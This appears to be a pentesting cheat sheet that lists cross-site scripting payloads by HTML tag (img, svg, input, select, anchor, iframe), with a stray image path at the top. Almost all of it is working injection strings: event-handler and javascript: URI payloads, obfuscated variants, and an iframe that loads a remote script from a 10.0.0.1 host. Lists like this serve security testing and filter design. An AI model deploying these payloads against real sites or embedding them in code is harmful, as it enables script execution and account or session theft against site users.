 ### Img Tags

```txt
" src=1 onerror=alert(1)>
<><img src=1 onerror=alert(1)>
"><img src=1 onerror=alert(1)>
"></span><img src=1 onerror=alert(1)>

<img src="javascript:alert(1)">
<img src="jav ascript:alert(1)">
<img src="jav&#x09;ascript:alert(1)">
<img src="jav&#x0A;ascript:alert(1)">

<img dynsrc="javascript:alert(1)">
<img lowsrc="javascript:alert(1)">

<img src=http://10.0.0.1/>
```

### SVG Tags

```txt
"><svg onload=alert(1)>
<svg onmouseover="alert(1)"></svg>
<svg><animatetransform onclick="alert(1)"></svg>
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

### Input Tags

```bash
<input autofocus onfocus=alert(1)>
```

### Select Tags

```bash
<select autofocus onfocus=alert(1)>
```

### Anchor Tags

```txt
<a onmouseover=alert(1)>click</a>
<a href="javascript:alert(1)">Click</a>
```

### Iframe Tags

```txt
<iframe src="javascript:alert(1)"></iframe>
<iframe src=http://10.0.0.1:8000/xss.js></iframe>
<iframe onload=alert(1)></iframe>
```
